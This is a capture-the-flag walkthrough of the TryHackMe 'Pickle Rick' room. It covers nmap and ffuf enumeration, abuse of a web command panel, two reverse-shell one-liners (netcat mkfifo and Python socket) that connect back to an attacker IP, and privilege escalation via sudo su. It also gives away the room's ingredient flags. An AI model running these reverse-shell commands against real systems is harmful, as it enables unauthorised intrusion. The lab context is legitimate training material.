

# Pickle Rick (THM)

- https://tryhackme.com/room/picklerick
- March 2, 2023
- easy

---

## Enumeration

- Nmap

1. 22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
2. 80/tcp open http syn-ack Apache httpd 2.4.18 ((Ubuntu))
   - server - Apache/2.4.18
   - title - Rick is sup4r cool
3. 458/tcp filtered appleqtc no-response
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- first access the web page as no username is known yet
- http://$IP - comment

```
Note to self, remember username!

    Username: R1ckRul3s
```

- http://$IP/robots.txt -> Wubbalubbadubdub
- http://$IP/assets/



- brute force with common.txt

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e .php,.html,.txt
```

```
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
denied.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 200, Size: 1062, Words: 148, Lines: 38]
index.html              [Status: 200, Size: 1062, Words: 148, Lines: 38]
login.php               [Status: 200, Size: 882, Words: 89, Lines: 26]
portal.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
robots.txt              [Status: 200, Size: 17, Words: 1, Lines: 2]

```

- try to login with username and password may be from robots.txt ?
- yes, it redirect to portal.php with command panel
- only portal.php has access, and others show `Only the REAL rick can view this page.`
- under form found a comment

```Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

```

- from command panel, some linux command can execute, but some are disabled
- `ls /home` -> rick and ubuntu
- cat command is disable, use with less
- `pwd` - `/var/www/html`
- `ls -la` -

```
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

- first ingredient

```sh
less Sup3rS3cretPickl3Ingred.txt
```

- second ingredient

```sh
less /home/rick/second\ ingredients
```

- `sudo -l` as www-data user

```
Matching Defaults entries for www-data on ip-10-10-72-194.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-72-194.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

- try to get reverse shell
- listen with nc at port 4242 at your attack machine

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```

- not success

```python
export RHOST="10.11.8.57";export RPORT=4242;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

- get shell access for www-data
- transfer linpeas.sh from your attack machine and get from tmp foler inside reverse shell and run linpeas.sh
- Interesting findings

```
- Vulnerable to CVE-2021-4034
- SUID
85     40 -rwsr-xr-x   1 root     root               40128 May 16  2017 /bin/su
```

- then change `sudo su` to become root

```sh
www-data@ip-10-10-252-85:/tmp$ sudo su
root@ip-10-10-252-85:/tmp# whoami
root
root@ip-10-10-252-85:/tmp# cd /root
root@ip-10-10-252-85:~# ls
3rd.txt  snap
root@ip-10-10-252-85:~# cat 3rd.txt
3rd ingredients: fleeb juice
```
